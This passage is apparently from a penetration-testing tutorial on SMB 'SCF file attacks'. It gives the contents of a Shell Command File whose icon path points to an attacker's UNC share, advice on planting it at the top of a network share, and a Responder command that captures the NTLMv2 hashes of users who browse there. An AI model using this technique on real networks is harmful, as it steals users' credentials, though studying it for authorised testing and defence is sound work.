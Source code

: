 # SMB

## SCF File Attacks

It is not new that SCF \(Shell Command Files\) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

```text
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

![](https://pentestlab.files.wordpress.com/2017/12/scf-file-contents.png?w=760)

Saving the pentestlab.txt file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the pentestlab.scf on the top of the share drive.SCF File

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.

```text
responder -wrf --lm -v -I eth0
```

 ![Responder - Parameters for SCF](https://pentestlab.files.wordpress.com/2017/12/responder-parameters-for-scf.png?w=760)

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.



